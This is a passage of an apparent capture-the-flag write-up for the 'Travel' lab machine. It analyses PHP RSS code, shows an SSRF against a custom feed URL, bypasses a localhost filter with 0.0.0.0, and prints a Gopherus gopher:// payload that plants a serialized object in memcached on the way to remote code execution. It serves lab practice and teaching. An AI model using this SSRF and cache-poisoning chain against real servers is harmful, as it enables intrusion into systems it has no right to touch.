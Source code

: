 ```bash
```
<br>
## Getting RCE 
The next steps all revolve around these three files so reading them thoroughly is definitely recommended.
If we look at `rss_template.php` more closely we see what the mitigations mentioned in the `safe` function of `template.php` are for:
{: .text-justify}
```php
# From rss_template.php
SERVER['QUERY_STRING'];
        if(strpos($url, "custom_feed_url") !== false){	# Searches the URL for the first occurence of `custom_feed_url`
                $tmp = (explode("=", $url));    # break URL into two parts
                $url = end($tmp);               # set $url to the string after the '='
        } else {				# if no custom feed was specified use the following one:
                $url = "http://www.travel.htb/newsfeed/customfeed.xml";
         }
         $feed = get_feed($url);                # call get_feed rss
```
So reading the code, we can apparently specify a custom feed url. To test this we set up a local http server and try to access it browsing to `http://blog.travel.htb/awesome-rss/?custom_feed_url=http://IP:8000/` and we record a GET request:
{: .text-justify}
```bash
kali@kali:~$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.189 - - [01/AUG/2020 10:25:32] "GET / HTTP/1.1" 200 -
```
Therefore we have a server side request forgery (SSRF) vulnerability, lets see what we can request by looking at how the content is processed:
```php
function url_get_contents ($url) {
    $url = safe($url);
        $url = escapeshellarg($url);
        $pl = "curl ".$url;
        $output = shell_exec($pl);
    return $output;
}
# in short:
return shell_exec("curl ".escapeshellarg($url))
```
As this is a simple curl call and the input is sanitized via escapeshellarg, I was not able to use this to upload a shell. 
Looking further at the `safe` function from `temlpate.php` we see a comment `// this should be secure` hinting, that it's probably not secure. So where can we do something forbidden?
Playing around a little bit and searching the web [I found out](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery) that we can circumvent the localhost restriction using the IP `0.0.0.0`. What do we want to access on localhost? Well, looking at `rss_template.php` again, we see that there is a connection established to a memcached service via 
{: .text-justify}
```php
$simplepie->set_cache_location('memcache://127.0.0.1:11211/?timeout=60&prefix=xct_');
```
Searching now for `memcached SSRF` I found the tool [Gopherus](https://github.com/tarunkant/Gopherus) which came in handy to create payloads. Following through the steps, choosing the default payload and changing the IP from `127.0.0.1` to `0.0.0.0` results in the following string, which we enter as the custom feed url:
{: .text-justify}
```bash
gopher://0.0.0.0:11211/_%0d%0aset%20SpyD3r%204%200%2016%0d%0aO:5:%22Hello%22:0:%7B%7D%0d%0a
```